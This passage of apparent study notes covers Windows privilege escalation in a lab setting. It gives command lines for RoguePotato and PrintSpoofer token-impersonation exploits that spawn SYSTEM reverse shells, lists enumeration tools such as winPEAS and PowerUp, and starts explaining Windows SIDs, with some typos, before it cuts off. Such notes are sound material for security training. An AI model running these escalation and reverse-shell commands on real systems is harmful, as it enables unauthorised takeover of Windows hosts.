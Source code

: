       C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999

- System shell

### Token Impersonation - PrintSpoofer

- Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:

      C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
- Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):

       c:\PrivEsc\PrintSpoofer.exe -i -c [rev shell's path]
  
![image](https://github.com/user-attachments/assets/980e676e-705f-4d15-9248-74d2c32f56d8)

- Use `whoami /priv` to check for privileges

![image](https://github.com/user-attachments/assets/baf8ab23-fbd5-408d-9eb4-2e5e967d324d)

- Privilege Escalation automation scripts

   - winPEASany.exe
   - Seatbelt.exe
   - PowerUp.ps1
   - SharpUp.exe



### OFFSEC
### Windows Access Control

- Privileges on the Windows Operating System refers to permissions of a specific user to perform system related local operations.e.g add users, modifying file system.

### Concepts

- Server Identifier `[SID]`
- Mandatory Integrity Control
- User Access Control
- Access Token

### Server Identifier

- A `SID` is a unique value assigned to a group and user and authenticated by windows.In the case of `users` and `groups`, it is generated by `Local Security Authority` while Doamin users and groups are created by the domain controller.The SID is generated when the user is creted and cannot be tampered with.
- A SID is represented by letters SRXY and `-` acts a delimeter

```S-R-X-Y```

- Literal `S` indicates that the string is an SID
- Literal `R`stands for `revision` and that the overall SID structure is at its initial version.it is always set to 1.
- “X” determines the identifier authority. This is the authority that issues the SID. For example, “5” is 
the most common value for the identifier authority. It specifies `NT Authority` and is used for local 
or domain users and groups.
- “Y” represents the sub authorities of the identifier authority. Every SID consists of one or more sub 
authorities. This part consists of the domain identifier and relative identifier (RID). The domain 
```